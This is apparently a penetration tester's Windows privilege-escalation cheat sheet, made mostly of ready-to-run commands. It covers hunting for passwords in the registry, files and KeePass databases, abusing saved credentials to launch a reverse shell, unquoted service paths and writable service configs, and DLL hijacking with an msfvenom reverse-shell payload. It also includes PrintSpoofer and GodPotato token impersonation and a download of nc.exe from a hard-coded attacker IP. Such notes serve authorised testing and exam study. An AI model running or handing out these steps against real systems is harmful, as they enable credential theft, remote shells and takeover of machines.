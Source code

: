 ### System and User Enumeration

```
#User
whoami /priv
net user <username>

#System
systeminfo
ipconfig
netstat -ano
```

### Search for Information
##### Searching Folders

```
#Specific File Types
Get-ChildItem -Path C:\<folder>\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx,*.ini, *bk, *backup*, -File -Recurse -ErrorAction SilentlyContinue

#All Files in Folder
Get-ChildItem -Path C:\<folder>\ -File -Recurse -ErrorAction SilentlyContinue

#Specific file name
Get-ChildItem -Path C:\ -Filter '<filename>' -File -Recurse -ErrorAction SilentlyContinue

#Keepass Database
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
```
##### Searching History
```
Get-History
(Get-PSReadlineOption).HistorySavePath
```
### Automation
```
winPEAs
ADPEAs
```
### Services
##### Running Services
```
#Services
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}

$AutoRun Services
Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.StartMode -like 'Auto'}
```

##### Unquoted Service Paths
```
wmic service get name,pathname |  findstr /i /v "C:\Windows\\" | findstr /i /v """

Get-WmiObject -Class Win32_Service | Where-Object { $_.State -eq 'Running' -and $_.PathName -notlike '*"*' } | Select-Object Name, PathName
```

##### Scheduled Tasks
```
schtasks /query /fo LIST /v
Get-ScheduledTask | where {$_.TaskPath -notlike "\Microsoft*"} | ft TaskName, TaskPath, State
```

##### Startup Apps

```
#If we can modify this directroy and add a shell. Then restart system.
 .\accesschk.exe /accepteula -d "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup
```

##### Shutting Down System
```
#Check SeShutdownPrivilege enabled
whoami /priv  

#Shuts system down
shutdown /r /t 0
```

##### Checking Permissions
```
#Check file and folder
icacls "C:\<service.exe>"
icacls "C:\<folder>\"

#check service start / stop
net stop <service_name>
Stop-Service <service_name>
```

##### Service Configuration Writable
```
#See configuration
sc.exe qc <service_name>

#Modify Configuration
sc.exe config <service_name> <option>= <value>
```
##### DLL Hijacking
```
1. Check can service be stopped and started.
2. Copy the service executable to your host and use ProcMon to monitor what DLLs the executable tries to run.
	Filter NAME NOT FOUND
	Filter .DLL
3. Check folder or path it is searching is writable.
4. Upload malicious executable. (msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f dll -o /tools/hijackme.dll)
5. Restart the service.
```

### Kernel Exploits

```
Methodology
1. Enumerate Windows version / patch level. (systeminfo)
2. Find matching exploits. (Google, ExploitDB, GitHub)
3. Compile and run.

Tools
- Windows Exploit Suggester - wesng
- Precompiled Kernel Exploits - SecWiki
- Watson - rasta-mouse

Notes
- Be careful these can be unstable and may crash the system.
```


### Passwords

##### Registry

```
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```

##### Saved Creds
```
cmdkey /list
run as /savecred /user:<username> <reverse_shell>
```

### Token Impersonation

##### Printer Spoofer

```
.\PrintSpoofer64.exe -i -c powershell.exe
https://github.com/itm4n/PrintSpoofer
```

##### Potato Exploits

```
#GodPotato
iwr -uri http://192.168.45.217:81/nc.exe -Outfile nc.exe
.\GodPotato-NET4.exe -cmd "C:\temp\shell.exe"
```
[https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/roguepotato-and-printspoofer](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/roguepotato-and-printspoofer)

Windows Server 2022

- [https://github.com/BeichenDream/GodPotato](https://github.com/BeichenDream/GodPotato)
- [https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/juicypotato](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/juicypotato)